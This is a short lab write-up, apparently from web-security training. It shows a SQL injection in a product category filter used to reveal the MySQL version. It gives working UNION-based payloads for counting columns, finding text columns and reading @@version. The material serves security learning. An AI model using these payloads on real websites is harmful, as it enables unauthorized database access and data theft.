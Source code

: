 # **Lab 04 - SQL injection attack, querying the database type and version on MySQL and Microsoft**


## Scenario
***
**SQL injection vulnerability** -> product category filter

**End Goal**                              -> display the database version string
***

## Analysis

### **(1)  Find the number of columns**

There are two different methods that can be used:

* 1st method (internal server error)

```
' ORDER BY 3#
```

* 2nd method

```
' UNION SELECT NULL,NULL#
```

**Conclusion:** 2 columns

### **(2) Figure out which columns contain text**

```
' UNION SELECT 'a', 'a'#
```

**Conclusion:** Both columns contain text

### **(3) Output the version**

```
' UNION SELECT @@version, NULL#
```

**Conclusion:** The version displayed is "8.0.33-0ubuntu0.20.04.4"

Link: https://docs.google.com/document/d/1IiIajELsFQ2yub7Y6U4MKxjwP6eL5-lsm7pDSKoshNs/edit?usp=sharing
